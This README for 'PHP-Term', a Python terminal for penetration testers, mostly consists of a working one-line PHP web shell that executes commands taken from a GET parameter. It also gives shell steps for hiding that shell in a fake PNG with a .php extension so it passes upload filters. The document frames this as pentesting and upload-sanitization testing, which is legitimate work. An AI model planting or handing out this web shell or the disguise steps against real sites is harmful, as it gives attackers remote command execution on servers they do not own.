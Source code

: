 # PHP-Term
A terminal for penetration testers, to connect to an uploaded php payload. (Made with Python).
The payload itself is one simple PHP code line to give the tester a remote shell through unsanitized uplaod features of a website.
It looks like this:
```
<?php system(\$_GET['cmd']); ?>"
```

To further test for sanitized uploads you can use this to create fake PNG files.
E. x.:
Create an empty PNG formatted file:
```
printf "\x89PNG\r\n\x1a\n" > payload.png
```

Append PHP-Paylaod:
```
echo "<?php system(\$_GET['cmd']); ?>" >> payload.png
```

Give it a PHP alias:
```
mv payload.png payload.png.php
```

This will also work with different file formats and might help you to sanitize the uploads properly.
